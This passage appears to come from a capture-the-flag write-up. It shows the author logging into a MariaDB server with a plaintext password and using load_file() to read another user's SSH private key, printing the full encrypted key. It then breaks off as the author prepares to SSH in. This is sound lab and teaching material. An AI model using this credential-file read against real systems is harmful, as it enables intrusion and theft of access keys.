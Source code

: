 I know from above that there’s a path `/home/dorthi/.ssh/` that maps to
`/connect/sshkeys` on the host. I’ll use the database to grab the file.

    
    
    /containers/database # mysql -h 10.100.10.4 -u dorthi -pN0Pl4c3L1keH0me
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 2
    Server version: 5.5.59-MariaDB-1~wheezy mariadb.org binary distribution
    
    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
    
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
    
    MariaDB [(none)]> select load_file("/home/dorthi/.ssh/id_rsa");
    ...[snip]...
    | -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,66B9F39F33BA0788CD27207BF8F2D0F6
    
    RV903H6V6lhKxl8dhocaEtL4Uzkyj1fqyVj3eySqkAFkkXms2H+4lfb35UZb3WFC
    b6P7zYZDAnRLQjJEc/sQVXuwEzfWMa7pYF9Kv6ijIZmSDOMAPjaCjnjnX5kJMK3F
    e1BrQdh0phWAhhUmbYvt2z8DD/OGKhxlC7oT/49I/ME+tm5eyLGbK69Ouxb5PBty
    h9A+Tn70giENR/ExO8qY4WNQQMtiCM0tszes8+guOEKCckMivmR2qWHTCs+N7wbz
    a//JhOG+GdqvEhJp15pQuj/3SC9O5xyLe2mqL1TUK3WrFpQyv8lXartH1vKTnybd
    9+Wme/gVTfwSZWgMeGQjRXWe3KUsgGZNFK75wYtA/F/DB7QZFwfO2Lb0mL7Xyzx6
    ZakulY4bFpBtXsuBJYPNy7wB5ZveRSB2f8dznu2mvarByMoCN/XgVVZujugNbEcj
    evroLGNe/+ISkJWV443KyTcJ2iIRAa+BzHhrBx31kG//nix0vXoHzB8Vj3fqh+2M
    EycVvDxLK8CIMzHc3cRVUMBeQ2X4GuLPGRKlUeSrmYz/sH75AR3zh6Zvlva15Yav
    5vR48cdShFS3FC6aH6SQWVe9K3oHzYhwlfT+wVPfaeZrSlCH0hG1z9C1B9BxMLQr
    DHejp9bbLppJ39pe1U+DBjzDo4s6rk+Ci/5dpieoeXrmGTqElDQi+KEU9g8CJpto
    bYAGUxPFIpPrN2+1RBbxY6YVaop5eyqtnF4ZGpJCoCW2r8BRsCvuILvrO1O0gXF+
    wtsktmylmHvHApoXrW/GThjdVkdD9U/6Rmvv3s/OhtlAp3Wqw6RI+KfCPGiCzh1V
    0yfXH70CfLO2NcWtO/JUJvYH3M+rvDDHZSLqgW841ykzdrQXnR7s9Nj2EmoW72IH
    znNPmB1LQtD45NH6OIG8+QWNAdQHcgZepwPz4/9pe2tEqu7Mg/cLUBsTYb4a6mft
    icOX9OAOrcZ8RGcIdVWtzU4q2YKZex4lyzeC/k4TAbofZ0E4kUsaIbFV/7OMedMC
    zCTJ6rlAl2d8e8dsSfF96QWevnD50yx+wbJ/izZonHmU/2ac4c8LPYq6Q9KLmlnu
    vI9bLfOJh8DLFuqCVI8GzROjIdxdlzk9yp4LxcAnm1Ox9MEIqmOVwAd3bEmYckKw
    w/EmArNIrnr54Q7a1PMdCsZcejCjnvmQFZ3ko5CoFCC+kUe1j92i081kOAhmXqV3
    c6xgh8Vg2qOyzoZm5wRZZF2nTXnnCQ3OYR3NMsUBTVG2tlgfp1NgdwIyxTWn09V0
    nOzqNtJ7OBt0/RewTsFgoNVrCQbQ8VvZFckvG8sV3U9bh9Zl28/2I3B472iQRo+5
    uoRHpAgfOSOERtxuMpkrkU3IzSPsVS9c3LgKhiTS5wTbTw7O/vxxNOoLpoxO2Wzb
    /4XnEBh6VgLrjThQcGKigkWJaKyBHOhEtuZqDv2MFSE6zdX/N+L/FRIv1oVR9VYv
    QGpqEaGSUG+/TSdcANQdD3mv6EGYI+o4rZKEHJKUlCI+I48jHbvQCLWaR/bkjZJu
    XtSuV0TJXto6abznSC1BFlACIqBmHdeaIXWqH+NlXOCGE8jQGM8s/fd/j5g1Adw3
    -----END RSA PRIVATE KEY-----
     |
    ...[snip]...
    

### SSH as dorthi

Now I have everything I need to SSH as dorthi. I converted the port knocking
onliner into a bash “get shell” script:
